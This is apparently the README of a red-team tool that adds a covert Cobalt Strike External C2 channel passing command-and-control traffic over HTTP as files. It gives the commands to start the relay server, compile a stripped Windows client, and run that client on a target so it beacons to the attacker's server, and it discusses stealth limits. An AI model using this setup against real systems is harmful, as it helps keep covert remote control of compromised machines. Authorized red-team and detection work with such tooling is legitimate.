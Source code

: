 # HTTP_File_Covert_Channel
Cobalt Strike External C2 channel that transfers data over HTTP in the form of files.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on.
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver. Recommend port 80 as this is an HTTP channel.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.  

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe [Python Server IP] [Port] [Pipename]

- [Name] is the name of your client executable.
- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- This channel does not disconnect its beacon connection. If the server goes down, the client will continue sending packet retransmissions to the dead IP address until the process is killed. (Unless there is a read error on the socket) This may pose stealth issues.
- Once a connection is established, it keeps the TCP connection open until the client is terminated. This can result in extreamly long lasting TCP sessions.
- Mudge defined max payload size as 512 \* 1024 and max buffer size as 1024 \* 1024.

## TODOS/IMPROVEMENTS

- Close TCP connection when sleeping.
- Handle multiple clients on one server.
- Read in a txt file of possible file name to randomly select from.
